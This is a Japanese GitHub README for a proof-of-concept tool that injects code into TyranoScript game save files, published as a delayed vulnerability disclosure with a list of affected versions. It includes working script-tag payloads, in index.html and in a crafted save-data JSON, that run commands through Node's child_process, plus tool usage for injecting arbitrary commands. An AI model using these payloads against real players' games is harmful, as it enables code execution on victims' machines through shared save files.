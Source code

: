 # TyranoKiller
👻 TyranoScript(Tyrano シリーズ)のテスト用コードインジェクションツール  
![main.png](images/main.png)  
CVE-XXXX-XXXX (0day)  

**⚠他者から受け取ったセーブデータファイルや開発データの利用は大変危険です!!!!⚠**  

本脆弱性は[独立行政法人情報処理推進機構(IPA)](https://www.ipa.go.jp/)及び開発者に報告を行った後、365日の期間を開けて公開されました。
脆弱性に該当しない可能性がある/セキュリティリスクとなりうる部分を修正したとの返答を受け取っており、注意喚起及び同様の脆弱性作りこみの防止を目的として開示します。
本PoCはユーザへの注意喚起と、ユーザ自身が作成したゲームの脆弱性を調査する目的でのみの利用が許可され、攻撃への転用は禁止されています。
また、他者の作成したゲームに本PoCを使用することは、法律で禁止されている場合がありますのでご注意ください。  
ツール名はジョークです(恐竜の🍖食べてみたいよね)。

## Vulnerability
以下に示すツール/バージョンを用いて開発されたすべてのゲームに、セーブデータファイル経由の脆弱性が存在します。
- TyranoScriptV5 <= 5.04b  
- TyranoScript <= 4.83  

攻撃者はセーブデータファイル内に埋め込まれたHTMLタグを経由して、JavaScriptからNode.jsの全機能を利用し、任意のコードを実行することができます。
これにより被害者は、配布されているセーブデータを読み込むだけで、悪意のあるコードの脅威にさらされることとなります。
また、ゲームの開発データである`index.html`を経由しても同様であり、対象のソフトウェア(ツール)/バージョンは以下になります。
- TyranoBuilder <= 1.87b  
- TyranoBuilderV5 <= 2.02  
- TyranoRider <= 2.20  
- TyranoStudio <= 1.10d  
- (TyranoScriptV5 <= 5.11d)  
- (TyranoScript <= 4.88)  

本PoCにはindex.htmlにコードをインジェクションするテスト機能はありませんが、以下のコードを埋め込んだゲームを開発者としてプレビューすると、XSSから任意のコードが実行されます。
```html
<script>
require("child_process").exec("calc");
</script>
```

### Payload
脆弱性調査はオリジナルのゲームセーブデータを利用せずに再現することができます。
他者のゲームにおいて調査を行う場合は、以下を利用することでセーブデータ改変の著作権諸問題を回避できます。
以下のセーブデータは、すべてのゲームのセーブデータパターンにマッチします。
```json
{
    "kind":"save",
    "data":[{
        "title":"<script>require('child_process').exec('calc');</script>"
    }]
}
```

### Demo
![calc.gif](images/calc.gif)  
(サンプルゲーム引用元: https://tyrano.jp/)  

## Usage
```bash
usage: tyranokiller.py [-h] [-c COMMAND] filename

positional arguments:
  filename              Specify the target sav file name

optional arguments:
  -h, --help            show this help message and exit
  -c COMMAND, --command COMMAND
                        Specify the command to be injected
```
デフォルトでは`calc`が実行されます。
コードはセーブデータの先頭のセーブに反映されます。

**コード`alert('Injected_by_TyranoKiller_!!!!');`は悪用を防ぐために付加されており、削除を禁止します。**
